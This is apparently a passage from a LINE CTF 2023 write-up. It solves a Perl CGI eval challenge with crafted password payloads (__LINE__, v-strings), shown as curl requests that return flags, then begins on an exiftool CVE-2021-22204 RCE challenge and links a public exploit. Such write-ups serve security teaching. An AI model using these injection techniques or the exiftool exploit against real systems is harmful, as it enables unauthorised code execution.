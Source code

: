 And no code injection (highly impossible and the related code is omitted here).

And a vague restriction.

```perl
if ($pw =~ /[Mx. squ1ffy]/i) {
    print "You may have had one too many Old Pal :(";
    die();
}
```

An easy thinking is to find some expression eval to 20230325. And an intuitive construction is `20230326-xxx`, where `xxx` is something interesting.

In fact, there are some special builtin functions in perl. The one we need is `__LINE__`, which returns the current line number. In the eval context in this challenge, it will return 1.

Hence, the final exp is:

```bash
$ curl 'http://104.198.120.186:11006/cgi-bin/main.pl?password=20230326-__LINE__'
Congrats! Flag is LINECTF{3e05d493c941cfe0dd81b70dbf2d972b}
```

Another choice is to using the v-string in Perl:

> A literal of the form v1.20.300.4000 is parsed as a string composed of characters with the specified ordinals. This form is known as v-strings.
>
> A v-string provides an alternative and more readable way to construct strings, rather than use the somewhat less readable interpolation form "\x{1}\x{14}\x{12c}\x{fa0}".

So just use `v48` to represent 0:

```bash
$ curl 'http://104.198.120.186:11006/cgi-bin/main.pl?password=20230325-v48'
Congrats! Flag is LINECTF{3e05d493c941cfe0dd81b70dbf2d972b}
```


## Imagexif

First, from the dockerfile can we know the version of exiftool used in this challenge is 12.22, which is vulnerable (CVE-2021-22204) and may lead to RCE.

```dockerfile
RUN wget https://github.com/exiftool/exiftool/archive/refs/tags/12.22.tar.gz && \
    tar xvf 12.22.tar.gz && \
    cp -fr /exiftool-12.22/* /usr/bin && \
    rm -rf /exiftool-12.22 && \
    rm 12.22.tar.gz
```

There are many exploits or analysis articles on the network. Just choose any.

Here we choose [this one](https://github.com/convisolabs/CVE-2021-22204-exiftool.git).

A problem is that the python backend is run in an internal network and has no access to public network, that is, we cannot establish a reverse shell, which would be the first choice to get the flag.
